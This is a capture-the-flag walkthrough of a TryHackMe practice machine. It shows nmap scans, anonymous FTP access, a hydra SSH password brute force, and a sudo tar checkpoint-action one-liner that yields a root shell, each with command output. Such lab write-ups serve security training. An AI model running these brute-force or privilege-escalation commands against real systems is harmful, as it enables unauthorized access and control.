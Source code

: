 Hi, here is how to successfully complete the machine https://tryhackme.com/r/room/cowboyhacker

As usual, I start by scanning the target machine with nmap, we see 3 open ports
<pre><code>> sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.31.37 | 
tee nmap1.txt
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-02 07:15 -03
Initiating SYN Stealth Scan at 07:15
Scanning 10.10.31.37 [65535 ports]
Discovered open port 80/tcp on 10.10.31.37
Discovered open port 21/tcp on 10.10.31.37
Discovered open port 22/tcp on 10.10.31.37
Completed SYN Stealth Scan at 07:15, 28.42s elapsed (65535 total ports)
Nmap scan report for 10.10.31.37
Host is up, received user-set (0.72s latency).
Scanned at 2024-10-02 07:15:24 -03 for 29s
Not shown: 63851 filtered tcp ports (no-response), 1681 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 28.52 seconds
           Raw packets sent: 130257 (5.731MB) | Rcvd: 1700 (68.128KB)</code></pre>


now that I know the open ports I will perform a better scan on those ports

port 21 (FTP) is open and allows anonymous login, suggesting that you can connect to the FTP server without the need for credentials
<pre><code>> sudo nmap -p21,22,80 -sCV -Pn 10.10.31.37 | tee nmap2.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-02 07:17 -03
Nmap scan report for 10.10.31.37
Host is up (0.30s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.1.92
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.30 seconds</code></pre>

we are going to connect via ftp putting “anonymous” in “name”.
<pre><code>> ftp -v 10.10.59.203
Connected to 10.10.59.203.
220 (vsFTPd 3.0.3)
Name (10.10.59.203:maxi): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> </code></pre>

if we run ls we can see the following two files, I downloaded them using the command get
<pre><code>ftp> get locks.txt
ftp> get task.txt</code></pre>

if we read the content of task.txt we can see the following text signed by “lin”

the locks.txt file is a dictionary of passwords, we can use it to try to brute force ssh and log in. 
<pre><code>~> cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin</code></pre>

an attempt to perform a brute force attack to access an SSH server on 10.10.59.203 with the user lin and a list of passwords contained in locks.txt
<pre><code>~> hydra -l lin -P locks.txt 10.10.59.203 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-02 11:11:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.59.203:22/
[22][ssh] host: 10.10.59.203   login: lin   password: ???
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-02 11:11:30</code></pre>

luckly the dictionary contained the password and we were able to access it through the user lin.
<pre><code>> ssh lin@10.10.59.203
The authenticity of host '10.10.59.203 (10.10.59.203)' can't be established.
ED25519 key fingerprint is SHA256:Y140oz+ukdhfyG8/c5KvqKdvm+Kl+gLSvokSys7SgPU.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:25: 10.10.31.37
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.59.203' (ED25519) to the list of known hosts.
lin@10.10.59.203's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ </code></pre>

the user flag.
<pre><code>lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{?????????????}</code></pre>

The result of the sudo -l command shows that the user lin has special privileges that allow him to execute the /bin/tar command as root without providing a password. This is an important hint for privilege escalation.
<pre><code>lin@bountyhacker:~$ sudo -l
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar</code></pre>

after trying many things with /bin/tar this was the one that finally worked for me

![2024-10-02_11-45](https://github.com/user-attachments/assets/c43f8302-fc52-460a-aefb-5b12f7081fe3)

I searched GTFobins /bin/tar and it gave me this way to escalate privileges by exploiting my access to /bin/tar

<pre><code>$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root</code></pre>

<pre><code># cat root.txt
THM{????}</code></pre>
